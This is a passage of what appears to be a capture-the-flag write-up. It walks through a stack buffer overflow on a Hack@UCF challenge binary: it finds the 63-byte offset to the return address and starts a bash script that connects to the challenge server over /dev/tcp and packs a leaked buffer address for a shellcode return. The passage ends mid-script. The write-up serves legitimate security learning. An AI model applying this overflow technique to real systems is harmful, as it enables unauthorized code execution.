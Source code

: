 ```c
		return;
	}
	
	fgets(flag, sizeof(flag), fp);
	fclose(fp);
	
	printf("Here is your first flag: %s\n", flag);
}
```
If we call this function at any time, however, it will always use `flag1.txt` as set in the `flagfile` variable.

The string containing the flag file name is in the data section of the program, so we can't directly change that with an overflow, but maybe we can do what we did in [Pwn super-stack](https://github.com/neuronflicker/CTF/tree/master/UCF/Pwn_super-stack) and put some code in the input buffer.

First I created an input file with 49 `A` characters in it to pass to the `read()` statement in the program:
```
> python -c "print('A'*49)" > inp.txt
```

This ensures we fill our 50-character input buffer with `A` characters, and the `0x0A` that's tagged on the end. Looking at the stack in [IDA Pro](https://github.com/neuronflicker/CTF/blob/master/UsefulNotes/ida.md) while the program was running, we can see the input buffer, and (highlighted in green) the return address we need to target:

![Stack input and return address](stack_input_and_ret.png)

We can see we need to send 63 characters to fill the stack space, and then we can change the return address.

So we can take the script from [Pwn super-stack](https://github.com/neuronflicker/CTF/tree/master/UCF/Pwn_super-stack) and update it to account for the buffer size of this program:
```bash
#!/bin/bash

# Open a socket to the server
exec 3<>/dev/tcp/ctf.hackucf.org/32101

# Get the address of the buffer
buf_addr=$(head -1 <&3)
echo Found: $buf_addr
buf_addr=$(echo $buf_addr | cut -d '=' -f 2 | cut -d 'x' -f 2)
echo Extracted: $buf_addr

# Convert to the format we need
# First check the address is 4 bytes long
addr_len=${#buf_addr}
while [ $addr_len -lt 8 ]
do
  buf_addr=0$buf_addr
  addr_len=${#buf_addr}
done

# Now get the bytes from last to first
hex_addr=
for i in $(seq 3 -1 0)
do
  pos=$((i*2))
  hex_addr="${hex_addr}\\x${buf_addr:$pos:2}"
```